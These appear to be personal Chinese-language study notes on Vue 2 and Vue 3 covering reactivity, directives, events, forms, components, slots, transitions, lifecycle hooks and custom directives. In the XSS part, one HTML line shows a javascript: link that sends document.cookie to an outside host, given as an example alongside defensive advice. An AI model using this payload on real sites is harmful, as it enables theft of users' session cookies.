








# 框架介绍

vue 原则：不侵入 html,除非自己愿意（vue 初始化）

## vue2（live server 保存后）:



{{js代码}}



# 数据绑定原理

## Vue2:

Object.defineProperty(es5 中一个无法 shim 的特性，这也是 vue 不支持 IE8 以及更低版本浏览器的原因)

```javascript
var obj={ }
Object.defineProperty(obj,'myname',{
    get(){console.log('get')},
    set(){console.log('set')}
})
```
对obj修改，就会触发set,获取值会触发get



## Vue3的变化： 

Object.defineProperty有一下缺点 
* 无法监听 ***es6的Set、Map变化***
* 无法监听***Class类型的数据***
* 无法监听***属性的新加或者删除*** 
* 无法监听***数组元素的增加和删除*** 

而ES6 Proxy都能够完美得解决这些缺点，唯一的缺点对IE不友好（IE11都不支持Proxy），所以vue3在检测到如果时IE的情况下，会自动降级为Object.defineProperty的数据监听系统。 

# 响应式渲染 
## 模版语法 

### 插值 
```javascript
{ 
    el：""， 
    data:{ }, 
    methos:{ 
        Change(){ } 
    } 
} 
```
1. {{}}  
2. v-html 防止XSS【跨站脚本攻击】 CSRF  
    * 前端过滤  
    * 后台转译【<> \&lt; &gt】 
    * 给cookie加上http属性

    ```html
    <a href=javascript:loaction.href="http://www.baidu.com?cookie="+document.cookie>click</a> 
    ```
    复制pdf需要注意编码问题 
3. 表达式 
4. ||

### 指令：是带有v-前缀的特殊属性 

* v-bind：class   -------动态绑定属性 
* v-if            ------动态创建/删除 
* v-show             -----动态显示/隐藏 
* v-on:click        ----绑定事件 
* v-for --------遍历 
* v-model ------双向绑定表单 
    ```html
    <input type="text" v-model="mytext"/> 
    ```
#### 缩写 

@click 

:动态属性[src/class/style]=“js变量” 
  
```javascript
:class="whichcolor" //whichcolor为变量 
:class="iscolor?'red':'yellow'" 
```
splice(index,1) 


# Style&class 

## class切换 

动态切换class--对象 

 
```javascript
<div :class="classobj"></div> 

==>
    <div class="aa bb"></div> 

classobj:{ 
    aa:true, 
    bb:true, 
    cc:false 
} 
classobj.dd=true //不能添加成功class 
 ```

### Vue2解决： 
```javascript
Vue.set(对象[classobj]，属性，true) 【bug】 
```
### Vue3解决：支持动态增加属性的拦截 
```javascript
动态切换class--数组 

classarr=['aa','bb'] 
classarr.push('cc') //添加class成功 
```
因：vue将数组的方法重写了 

## style切换 

Vue2 
```javascript
styleobj={ 
    backgroundColor:'red' 
} 
//…同class 
stylearr=[{backgroundColor:'red'}] 
new Vue({ }) 
```
Vue3 

Vue 报错==》不是构造函数 

 ```javascript
Vue.createApp({ 
//！！！！！改成函数防止互相影响【vue2组件也是这种写法，保护每个组件的状态值】 
    data(){ 
        return { } 
    } 
}).mount("#box") 
```
 

## 条件渲染 

v-if="isCreate" 

v-show 

## 多重影分身--列表渲染 

### **Vue2**

v-for (特殊 v-for="n in 10")   
in/of 没有区别 

**Key** 

* 跟踪每个节点的身份，从而重用和重新排列现有元素 

* 理想的key值是每项都有的且唯一的id 

*数组更新检测（vue重写了)*

使用一下方法操作数组，可以检测变动 push、pop、shift、unshift、splice、sort、reverse 改变原数组 

filter、concat 和 slice、map 不改变原数组，需要新数组覆盖旧数组 

 ```javascript
//不能检测的变动
vm.item[index]=newValue 

解决方法：
1.Vue.set(example.items,index,newValue)
2.splice (0,1,'test') 从第0开始删除一个 
```
### **Vue3** 

 ```javascript
vm.item[index]=newValue 能检测变动 
```
 
# 新的消息--事件处理 

模糊查询一 

 
 ```javascript
<input type="text" v-mode="text" @change="Change" /> 
methods:{ 
    Change(){ 
        this.text 
    } 
} 
//@input    只要value改变就触发 
//@change   失去焦点触发 
```

{{可以放函数表达式（）}} 

模糊查询二  

mytext改变与mytext相关的test会重新计算一次 

模糊查询三 

***mytext从事件函数event中获取*** 

事件处理器 

* @click="handleAdd($event[固定格式]，1，2)"-----函数表达式 
* @click="handleAdd"------函数名 （参数：evt） 
* @click="count++"----------- 表达式
# 事件修饰符（vue特有）  
阻止冒泡： 

* handleliClick(evt){evt.stopPropagation() } 
* @click.stop="handleliClick"  该次点击不会冒泡 
* @click.self="handleUlClick" 只点击自身时有效，冒泡不能触发 

使用场景：模态框【点击周边时，模态框消失】


* @click.once      只点击一次 
* @click.prevent 阻止默认行为【表单跳转前校验】 
```html
<a href="http://www.baidu.com" @click.prevent/> //不允许跳转 
```
# 按键修饰符： 
按下enter时触发改事件 
* @keyup.enter="handleKeyUp"===>evt.keyCode 
此外
* .esc  .up  .left  .right  .down  .space  .ctrl  .shift  .delete [可组合使用] 
* @keyup.13 

# 表单控件&双向绑定



表单绑定数组 

```html
checkList:[] 
<input type="checkbox" v-model="checkList" value="vue"/> 
<input type="checkbox" v-model="checkList" value="react"/> 
 
select:'a' 
<input type="radio" v-model="select" value="girl"/>
<input type="radio" v-model="select" value="boby"/> 
```
总结：
* 多行文本输入框：绑字符串 
* 单个checkbox :绑布尔值 
* 多个checkbox :绑数组 
* 多个radio :绑字符串 


⚠️vue架构模式：MVVM(双向数据绑定)  
⚠️React 不属于完整的框架只属于一个库 

减到1就不再减 

## 表单修饰符 
* v-model 没必要实时改变时【可添加修饰符 .lazy】 
* 表单输出是字符串 【.number ===>数字类型】 
* 去首尾空格  【正则/.trim】 


# 聪明的缓存--计算属性 
 
===>之前写法   
test.substring(0,1)   截取第一个  
test.substring(1)  截取第一个之后 

{{ test.substring(0,1).toUperCase()+test.substring(1)}} 

===>推荐写法 
```javascript
{{myCompute}} 
//不能传参数 

conputed:{ 
    myCompute(){ 
        return this.test.substring(0,1).toUperCase()+this.test.substring(1 
    } 
} 
```
不用函数的原因：多次使用时，函数会多次调用，计算属性有缓存不会多次调用 

**使用场景分析**  
* 方法函数【事件绑定，点击事件等处理，可以不用return，没有缓存】
* 计算属性【有缓存不会多次调用，必须有return只求结果】，compute中放同步代码----放ajax不好用👎
* Watch--监听【重视过程，不用返回值】

⚠️非input框，无法通过input事件监听改变 


模糊查询 
```javascript
watch:{ 
    mytext(){ 
    //mytext改变，就会监听到 
    } 
} 
```

# 新的信使-fetch&axios 

 * XMLHttpRequest 是一个设计粗糙的API,配置与调用方式混乱。而且基于事件的异步模型写起来不友好。  
 new-->open[get,post]-->sent 发送--->onreadyStateChange监听 【200 400】 
* fetch===》基于promise封装  
    兼容性不好==》处理兼容 polyfill  https://github.com/camsong/fetch-ie8

get请求 
```javascript
fetch("").then(res=>{ 
    //状态码，响应头，拿不到真正数据 
    return res.json() 
    // return res.text() 字符串需用json.parse解析 
}).then(res=>{ 
    //数据 
}).catch(er=>{ 
    //报错 
}) 
```

前端助手：Fehelper  

post请求

```javascript

//post加请求头：get明文可见，post放（body）请求体中传

//application/x-www-formurlencoded  name="liqiuli"&age=100 
//json   {name:'liqiuli',age:100} 
fetch("",{ 
    method:'', 
    headers:{ 
        "Content-Type":"application/x-www-formurlencoded" 
    }, 
    body:"name=liqiuli&age=100" 

    //body:JSON.stringfy({name:'liqiuli', age:10 }) 
}).then(res=>{ 
    //状态码，响应头，拿不到真正数据 
    return res.json() 
    // return res.text() 字符串需用json.parse解析 
}).then(res=>{ 
    //数据 
}).catch(er=>{ 
    //报错 
}) 
```

* axios====>会根据传的数据格式，为请求添加contnt-type 

# vue过滤器(可用|连接多个) 

```javascript
 
//url 是请求接口而不是路径时，替换url 

Vue.filter("imgFilter" ,(url)=>{ 
    return url.replace('w.h/','')+"@11_1e_1c_128w_180h" 
}) 
```

# 重塑经脉-组件 

**为什么组件化？**  
扩展HTML元素，封装可重用的代码 


## Vue2创建组件 

全局组件 
```javascript
Vue.component("navbar",{ 
    //dom js css 
    //组件通信 
    props:[name] 
    template:`<div>Navbar<child1/>
        <child2 name="liqiuli"/> 只能在当前组件内
        </div>"`, 
    method:{}, 
    data(){ 
        return 
    }, 
    watch:{} 
    //局部组件 
    components{ 
        "child2":{ 
            //props:[name], 
            //属性验证 
            props:{ 
                name:string 
            } 
            //默认属性 

            props:{ 
                name:{  
                    type:String, 
                    default:"" 
                } 
            } 
            template：`<div>{{name}}<div> `, 
            data(){ 
                return  
            } 
        } 
    } 
}) 

```
组件起名：js驼峰，html 链接符 

* dom片段，没有代码提示，没有高亮显示----vue单文件组件解决 
* css 只能写行内------------vue单文件组件解决 
* template 包含一个根结点 
* 组件是孤岛，无法【直接】访问外面的组件的状态或者方法。--------------间接的组件通信来交流 
* 自定义的组件data必须是一个函数 
* 所有的组件都在一起，太乱-------vue单文件组件解决 

## Vue3创建组件 

 
# 非父子通信 

## 子传父（事件） 

点导航栏---显示隐藏侧边栏 

父组件中两个子组件 
```javascript
<chidren1  @myevent="handevent"></chidren1> 
<chidren2 v-show="isShow"></chidren2> 

methos:{ 
    handevent(data){ 
    //接受改变 
        this.isShow=!this.isShow 
    } 
} 

--------------------
chidren1 : 

methods{ 
    handChild1(){ 
        //分发事件(孩子内部触发) 
        this.$emit("myevent"{test:'111') 
    } 
} 
```

## 中间人模式：兄弟通信（子1-->父-->子2） 

==>业务发展中间人越来越复杂 

## 表兄弟：中央事件总线 [bus：订阅/发布模式] 
```javascript
var bus=new Vue() 

订阅者（监听）： 
//组件创建好就订阅,生命周期函数 
mouted(){ bus.$on('name',()=>{}) }

发布者 :bus.$emit('name',2222) 
```

## ref组件通信（随意摆弄子组件值） 
ref  ----绑定dom节点，拿到的是dom对象 
ref  ----绑定组件，拿到的是组件对象 

```javascript
<input type="text" ref="myinput"/> 
<child  ref="mychild"/></child> 
new vue ({ 
    el:"#box", 
    method:{ 
        handleAdd(){ 
            this.$refs.myinput 
            this.$refs.mychild.name=333 
            //可直接改状态[不好] 
        } 
    } 
}) 
```
## vuex状态管理 

 
## 组件注意

**属性能不能修改？**  
父组件传的，只有父组件重新传，子组件不能直接修改，数据流紊乱 

**v-once 用在组件上有什么用？** 
组件包含大量静态内容（样式动画），会缓存下来。状态改了，组件不更新。 

# 动态组件 
```javascript
<li @click="which='home'">home</li> 
<li @click="which='list'">list</li> 
<li @click="which='shop'">shop</li>

<home v-show="which===home"/> 
<list v-show="which===list"/> 
<shop v-show="which===shop"/> 
 ```
====> 
```javascript
<li @click="which='home'">home</li> 
<li @click="which='list'">list</li> 
<li @click="which='shop'">shop</li> 

<keep-alive> 
    <component :is="which"></component>
</keep-alive> 
 ```

缺点:   
统一页面切换，组件彻底销毁，比如：输入框输入值等，不会保存，解决:`<keep-alive> `


# 插槽slot 

意义：扩展组件能力，提高组件的复用性 
```javascript
<child> 
    <div>11111</div> 
    <div>2222</div>   
     //具名插槽:作用是提高可复用性  
    <div slot='a'>333</div> 
</child> 

Vue.component("child",{ 
    template:`<div>Child 
                <slot></slot> 
                <slot></slot>  
                <slot name ='a'></slot> 
            </div> ` 
}) 
```
===>结果【单个插槽写法】 
>Child  
>11111  
>2222  
>11111  
>2222  
>333 


新版slot(vue2.5之后，非vue3) 
```javascript 
//template 不占位 

<child> 
    <div>11111</div> 
    <div>2222</div> 
    <template v-slot:a> 
        <div>33333</div> 
    </template> 
    <template #a> 
        <div>33333</div>
    </template> 
</child> 

Vue.component("child",{
    template:`<div>Child 
                <slot></slot> 
                <slot></slot> 
                <slot name ='a'></slot> 
            </div>` 
}) 
```
 
# 过渡效果transition ：引发条件v-show v-if 

>（单个、多个、列表） 

方案一： 

切换class  


方案二：自动帮我们切换class 
```javascript
<transition enter-active-class="kerwin-enter-active" leave-active-class="kerwin-leave-active"> 
    <div v-show="isShow">11111</div 
</transition> 
 ```

xxxx-enter-active  
xxxx-leave-active    

方案三：name
```javascript
<transition name="kerwin" appear> 
//只能活一个节点 
    <div v-if="isShow" key="111">11111</div> 
    <div v-else  key="2222">22222</div> 
</transition> 
```
appear：一开始出现就有动画 
mode="in-out" //先进再走 

 
## 过渡中的diff算法（需要加key的原因）： 

树按照层级对比 

同key值对比 



同组件对比 



动态组件也可加标签过渡 

列表过渡（添加进入，删除移出）,会实例化为一个标签 
```html
<transition-group name="kerwin"  tag="span"> 
    //多个节点 
</transition-group> 
```
可复用过渡（动画封到组件中） 


# 生命周期 

## 创建（只会走一次） 

* beforeCreate：（初始化事件与生命周期函数---没有状态） 
* created：后端渲染也会触发（注入---能访问状态---初始化状态或者挂在到当前实例的一些属性）       
新添加之前不存在的状态【是属性】，不能更改 

* beforeMount：未实例化dom---this.$el  模版解析前最后一次修改模板节点） 
* mounted：页面渲染才能触发,实例化dom------拿到真实dom。有些库，依赖dom创建才能轮播；订阅/发布；发ajax） 

## 更新 

* beforeUpdate：（访问老的dom节点---更新之前----记录老的do状态） 

* updated（更新完成-----swiper工作的插件工作） 

## 销毁（事件监听/定时器） 
* beforeDestroy 
* destroyed 

## swiper

## vue-swiper

# vue3组件写法
```javascript
var obj={
    data(){
        return{
            datalist:[]
        }
    },
    mounted(){

    }
}
var app=Vue.createApp(obj)
app.compontent('test',{
    props:[],
    template:``
})
app.mount('#root')
//!vue3没有 Vue.compontent('',{})
```
## vue3生命周期&轮播
```javascript
// beforeDestory(){}
// destoryed(){}
// 替换为
beforeUnmount(){}
unmounted(){}
```

vue2 基于类写法【使用this.XX去访问】  
vue3 类（90%一样）/hooks(函数式)

## vue2指令写法与应用
**自定义指令**  
指令特性：知道什么时候创建dom完成   
介绍direction-对普通dom元素进行底层操作（绑定/监听事件等）
```javascript
Vue.directive("hello",{
    //指令的生命周期
    //第一次插入到父节点中触发(mounted)
    inserted(el,binding){
        //el真实节点
        el.style.backgroundColor = binding.value
        //swiper 最后一个插入完成 new Swiper('.test',{}),避免多次new
    }，
    //每次组件中状态更新时触发(beforeUpdate)
    update(el,binding){},

    //只调用一次，指令第一次绑定到元素时调用。在这里可以进行一次性的初始化设置(created)
    bind(){}，
    //指令所在组件的 VNode 及其子 VNode 全部更新后调用(updated)
    componentUpdated(){}，
    //只调用一次，指令与元素解绑时调用(销毁)。
    unbind(){}
})

//v-XX 当成状态来对待，所以
<div v-hello="'red'">1111</div>
```

简写
```javascript
Vue.directive("hello",(el,binding)=>{
    //创建更新都会执行一次
})
//v-XX 当成状态来对待，所以
<div v-hello="'red'">1111</div>

```
参数：  
el：指令所绑定的元素，可以用来直接操作 DOM。   
binding：一个对象包含以下property：  
  ***name***：指令名，不包括 v- 前缀。
  ***value***：指令的绑定值，例如：v-my-directive="1 + 1" 中，绑定值为 2。  
  ***oldValue***：指令绑定的前一个值，仅在 update 和 componentUpdated 钩子中可用。无论值是否改变都可用。  
  ***expression***：字符串形式的指令表达式。例如 v-my-directive="1 + 1" 中，表达式为 "1 + 1"。  
  ***arg***：传给指令的参数，可选。  
  例如 v-my-directive:foo 中，参数为 "foo"。  
  ***modifiers***：一个包含修饰符的对象。例如：v-my-directive.foo.bar 中，修饰符对象为 { foo: true, bar: true }。  
  ***vnode***：Vue 编译生成的虚拟节点。移步 VNode API 来了解更多详情。  
  ***oldVnode***：上一个虚拟节点，仅在 update 和 componentUpdated 钩子中可用。


## Vue3指令写法
```javascript
var obj={
    data(){
        return{
            datalist:[]
        }
    },
    mounted(){}
}
var app=Vue.createApp(obj)

app.directive("hello",{
    //指令的生命周期(比vue3组件少了 beforeCreate)
    mounted(el,binding){
        //el真实节点
        el.style.backgroundColor = binding.value
        //swiper 最后一个插入完成 new Swiper('.test',{}),避免多次new
    },
})
app.mount('#root')
//!vue3没有 Vue.compontent('',{})
```
## nextTick（最简洁，无复用性）
```javascript
var obj={
    data(){
        return{
            datalist:[]
        }
    },
    mounted(){

    }
}
var app=Vue.createApp(obj)
app.compontent('test',{
    props:[],
    template:``,
    mounted(){
        setTimeout(()=>{
            this.list=[3333,5555,677]

            //一次性监听工作（list更新到dom）
            this.$nextTick(()=>{
                console.log('比updated执行的都晚，而且只执行一次')
                //用来swiper
            })
        })

    }
})
app.mount('#root')
//!vue3没有 Vue.compontent('',{})
```

